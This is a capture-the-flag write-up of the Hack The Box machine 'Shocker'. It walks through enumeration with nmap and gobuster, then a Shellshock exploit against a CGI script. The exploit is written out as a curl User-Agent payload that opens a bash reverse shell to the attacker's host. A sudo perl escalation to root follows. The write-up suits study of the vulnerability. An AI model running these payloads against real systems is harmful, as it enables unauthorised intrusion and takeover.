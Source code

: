 ```yaml
---
title: Shocker
tags: linux
---
```


![image](assets/79377933-77979c00-7f2a-11ea-8b23-43eefc2f2249.png)

## Overview

Shocker is an Ubuntu box that is vulnerable to the [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerablility. ShockShock alows for environment variables that specify a function definition to be arbitrarily defined within bash. Bash continues to process shell commands after the function definition which allows for abuse in the form of code injection. By exploiting this vulnerability I was able to embed a bash command in the "User Agent" http header to create a reverse shell which provided initial foothold as user shelly. Shelly was able to run sudo without password for perl which was used to spawn a shell as root.

## Enumeration

**Software**

* Ubuntu 16.04.3 LTS
* Apache 2.4.18
* Sudo 1.8.16-0ubuntu1.5

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.56 -oN /mnt/data/boxes/shocker/_full_tcp_nmap.txt
```

* 80/tcp - http
* 2222/tcp - ssh

**gobuster**

```
gobuster dir -u http://10.10.10.56 -w ~/tools/SecLists/Discovery/Web-Content/common.txt -t 40
```

* /.hta (Status: 403)
* /.htpasswd (Status: 403)
* /.htaccess (Status: 403)
* /cgi-bin/ (Status: 403)
* /index.html (Status: 200)
* /server-status (Status: 403)


```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w ~/tools/SecLists/Discovery/Web-Content/common.txt -t 40 -x sh
```

* /.htpasswd (Status: 403)
* /.htpasswd.sh (Status: 403)
* /.hta (Status: 403)
* /.hta.sh (Status: 403)
* /.htaccess (Status: 403)
* /.htaccess.sh (Status: 403)
* /user.sh (Status: 200)


## Steps (user)

Some background: There was quite a bit of trial and error involved in the enumeration phase on this box. The normal wordlists I use were not finding anything (directory-list-2.3-small/medium.txt) so I tried some different ones found on [SecLists](https://github.com/danielmiessler/SecLists). Once I found cgi-bin/ I ran a scan again with gobuster, looking for shell files and finally found user.sh.

I browsed to http://10.10.10.56 and was brought to a page containing an image of a bug with the caption "don't bug me".

![image](assets/83983663-4f129980-a8fe-11ea-91c6-d15936f8d44b.png)

Looking at the gobuster results from earlier, I browsed to http://10.10.10.56/cgi-bin/user.sh and opened the script to take a look and confirmed it was definitely executing bash comands.

![image](assets/84602974-f8a2df00-ae58-11ea-81f3-d5b34c8f3ff3.png)

Considering the box name was "Shocker", I tested to see if it was vulnerable to ShellShock by having the target execute a command to ping my box.

I set up tcpdump to listen for icmp only on tun0 (tcpdump -i tun0 icmp) and ran the curl command with function definition followed by the ping command

```
curl -H "User-Agent: () { :; }; /bin/ping -c 1 10.10.14.23 " http://10.10.10.56/cgi-bin/user.sh
```

I received a ping from the target.

![image](assets/83984229-0fe64780-a902-11ea-83a0-62859458a03c.png)

Now that I knew I could execute commands I set up a netcat listener (nc -lvnp 4200) and added a reverse shell to the curl command. Once run I received a callback and shell as user shelly.

```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.12/4200 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

![image](assets/83984262-47ed8a80-a902-11ea-8470-389f7d1311eb.png)


## Steps (root/system)


One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that user Shelly could run perl as root with no password

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy.

![image](assets/83984281-5b005a80-a902-11ea-8406-0c0e0c0e886f.png)

Searching GTFOBins for perl I found a command that could be used to spawn a shell. Running the command with sudo gave me shell as root.

> [GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions

```
sudo perl -e 'exec "/bin/sh";'
```

![image](assets/83984312-86834500-a902-11ea-8b6c-cfca1174805e.png)
